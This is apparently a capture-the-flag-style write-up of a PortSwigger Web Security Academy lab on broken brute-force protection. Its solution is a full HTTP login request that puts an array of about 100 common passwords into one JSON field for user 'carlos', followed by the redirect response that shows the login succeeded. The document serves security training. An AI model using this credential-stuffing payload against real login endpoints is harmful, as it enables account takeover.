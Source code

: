 # Lab Description

## Lab: Broken brute-force protection, multiple credentials per request

This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

Victim's username: carlos

# Lab Solution

**HTTP Request**

```
POST /login HTTP/1.1
Host: 0abd00a704b3783b804b44ac001f00f7.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abd00a704b3783b804b44ac001f00f7.web-security-academy.net/login
Content-Type: application/json
Origin: https://0abd00a704b3783b804b44ac001f00f7.web-security-academy.net
Connection: keep-alive
Cookie: session=CFJN2Y3ux118fuh6aLqqvHIgzKURff3v
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1
Content-Length: 993

{"username" : "carlos", "password" : ["123456", "password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow"]}

```

**HTTP Response 302 Found Redirect**

```
HTTP/1.1 302 Found
Location: /my-account?id=carlos
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0
Set-Cookie: session=G7q9BJS56LxbjznfpeIVPI6qWP1Z1moN; Secure; HttpOnly; SameSite=None


```
